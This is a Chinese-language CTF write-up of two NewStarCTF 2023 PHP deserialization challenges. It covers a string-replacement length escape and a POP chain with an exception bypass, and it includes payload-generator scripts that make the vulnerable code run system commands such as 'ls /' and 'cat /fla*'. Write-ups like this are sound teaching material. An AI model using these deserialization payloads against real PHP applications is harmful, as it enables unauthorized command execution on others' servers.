 ```yaml
---
title: NewStarCTF2023 week4 反序列化记录
date: 2023-10-24 11:36 +0800
categories: [CTF,WEB]
tags: [反序列化,web]
media_subpath: /assets/images/
---
```




## 逃

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); 
```

这里传入的 `key` 先序列化，在反序列化。

这里的 序列化后 有一个waf 会将 bad 替换成 good，

我们先 正常 传入一个key，进行反序列化得到一个正常的payload

```
O:7:"GetFlag":2:{s:3:"key";s:4:"test";s:3:"cmd";s:6:"whoami";}
```

我们需要伪造的就是 `";s:3:"cmd";s:6:"whoami";}` 这一串，test后面的。

因为，bad 替换成 good 后，中间的 key 的 值 会变长，但是读取的字符串长度是固定的（`s:4:`），就可以让后面的部分`";s:3:"cmd";s:6:"whoami";}`不在反序列化的范围内。

如下面的图，经过waf后，第四段就不在反序列化的范围内了。

![image-20231024093431830](NewStarCTF 2023_week4.assets/image-20231024093431830.png)



```php
<?php
$cmd = 'ls /';
// ";s:3:"cmd";s:6:"whoami";}
$payload = '";s:3:"cmd";s:' . strlen($cmd) . ':"' . $cmd . '";}';
$badstr =  str_repeat('bad', strlen($payload));
$key = $badstr . $payload;
echo $key;

# badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

我们简单的理解一下，就可以写成一个 payload 生成器。

![image-20231024094642983](NewStarCTF 2023_week4.assets/image-20231024094642983.png)

注：

```php
<?php

use GetFlag as GlobalGetFlag;

class GetFlag {
    public $key = 'badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}';
    public $cmd = "whoami";
}
// O:7:"GetFlag":2:{s:3:"key";N;s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:6:"whoami";}
// ";s:3:"cmd";s:4:"ls /";}
// O:7:"GetFlag":2:{s:3:"key";s:96:"badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}";s:3:"cmd";s:6:"whoami";}

echo serialize(new GlobalGetFlag());
```





## More Fast（Exception绕过）

```php
<?php
highlight_file(__FILE__);

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
    public function evil() {
        phpinfo();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

pop链

```
WEB::evil()
Pwn::__invoke[obj] --> WEB::evil()
Reverse::__get[func] --> Pwn::__invoke
Crypto::__toString[obj] --> Reverse::__get
Start::__destruct[errMsg] --> Crypto::__toString
```

```php
<?php

use Crypto as GlobalCrypto;
use Pwn as GlobalPwn;
use Reverse as GlobalReverse;
use Start as GlobalStart;
use Web as GlobalWeb;

class Start{
    public $errMsg;
    public function __destruct() {
        die($this->errMsg);
    }
}

class Pwn{
    public $obj;
    public function __invoke(){
        $this->obj->evil();
    }
}

class Reverse{
    public $func;
    public function __get($var) {
        ($this->func)();
    }
}

class Web{
    public $func;
    public $var;
    public function evil() {
        if(!preg_match("/flag/i",$this->var)){
            ($this->func)($this->var);
        }else{
            echo "Not Flag";
        }
    }
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class myclass{}


$a = new GlobalWeb();
$a->func = 'system';
$a->var = 'cat /fla*';

$b = new GlobalPwn();
$c = new GlobalReverse();
$d = new GlobalCrypto();
$e = new GlobalStart();

$b->obj = $a;
$c->func = $b;
$d->obj = $c;
$e->errMsg = $d;


$payload = serialize(array($e, null));
$payload = str_replace('i:1;N;}', 'i:0;N;}', $payload);
echo $payload;
```



![image-20231024112410706](NewStarCTF 2023_week4.assets/image-20231024112410706.png)



![image-20231024112832877](NewStarCTF 2023_week4.assets/image-20231024112832877.png)
